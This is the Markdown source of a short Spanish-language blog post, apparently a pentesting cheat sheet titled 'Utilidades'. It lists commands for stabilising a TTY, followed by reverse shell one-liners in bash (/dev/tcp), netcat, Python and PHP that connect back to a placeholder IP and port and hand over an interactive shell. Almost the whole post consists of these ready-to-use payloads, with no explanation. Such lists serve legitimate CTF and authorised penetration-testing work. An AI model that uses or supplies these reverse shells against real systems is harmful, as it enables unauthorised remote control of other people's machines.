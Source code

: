 ```yaml
---
title: Utilidades
date: 2024-10-03
description: Post con recursos generales.
categories:
    - Utilities
tags:
    - Utilities
media_subpath: /assets/img/commons/Utilities/
# image:
---
```


## Tratamiento de la tty

```bash
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 44 col 184
```

## Reverse Shell Linux

```bash
bash -i >& /dev/tcp/{IP}/{PUERTO} 0>&1
```

## Reverse Shell Netcat

```bash
nc -e /bin/sh {IP} {PUERTO}
```

## Reverse Shell Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PUERTO}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse Shell PHP

```bash
php -r '$sock=fsockopen("{IP}",{PUERTO});exec("/bin/sh -i <&3 >&3 2>&3");'
```
